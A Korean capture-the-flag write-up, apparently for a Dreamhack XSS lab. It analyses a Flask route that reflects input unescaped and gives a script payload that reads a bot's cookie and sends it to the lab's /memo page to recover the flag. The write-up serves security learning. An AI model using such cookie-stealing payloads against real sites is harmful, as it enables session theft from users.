




# B2 · XSS-1

### 1. VM에 접속한다

첫 화면에서 `vuln(xss) page`, `memo`, `flag` 기능을 확인한다.



### 2. 코드 분석

`/vuln`은 입력값 `param`을 그대로 반환하므로 스크립트가 실행될 수 있다.

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

# (생략)
if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
    # (생략)
```

또한 `/flag`에 값을 제출하면 Selenium 봇이 `flag` 쿠키를 가진 상태로 `/vuln`에 접속한다. `/memo`는 전달받은 `memo` 값을 저장하고 화면에 표시한다.

### 3. XSS 코드 입력

`/flag` 입력창에 아래 코드를 제출한다.

```html
<script>
location.href='/memo?memo='+encodeURIComponent(document.cookie)
</script>
```

실행된 JavaScript가 봇의 쿠키를 읽어 `/memo` 주소로 전달한다. `encodeURIComponent()`는 쿠키 값을 URL에 안전하게 넣기 위한 처리다.

| 입력 전 | 코드 입력 후 |
| :---: | :---: |
|  |  |

### 4. `/memo`에서 FLAG 확인

`/memo` 페이지에서 저장된 `flag=DH{...}` 값을 확인한다. `good` 알림만으로 성공을 확정하지 않고 **실제로 쿠키가 기록됐는지** 확인한다.



**취약점 원인:** `/vuln`이 사용자 입력을 이스케이프하지 않아 XSS가 실행되고, 봇의 FLAG 쿠키가 JavaScript에서 읽혀 `/memo`에 저장된다.
